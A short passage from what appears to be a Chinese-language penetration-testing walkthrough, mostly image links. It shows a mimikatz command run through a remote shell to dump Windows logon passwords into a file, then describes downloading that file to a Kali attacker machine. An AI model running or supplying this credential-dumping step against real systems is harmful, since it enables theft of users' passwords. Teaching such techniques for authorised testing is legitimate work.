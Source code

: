 ```cmd
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"  "exit"> password.txt
```

直接使用 download 命令下载，下载后会保存到程序目录的 downloads 目录。![](img/18.png)

之后进入kali的downloads目录是随即名

![](img/20.png)

![](img/19.png)
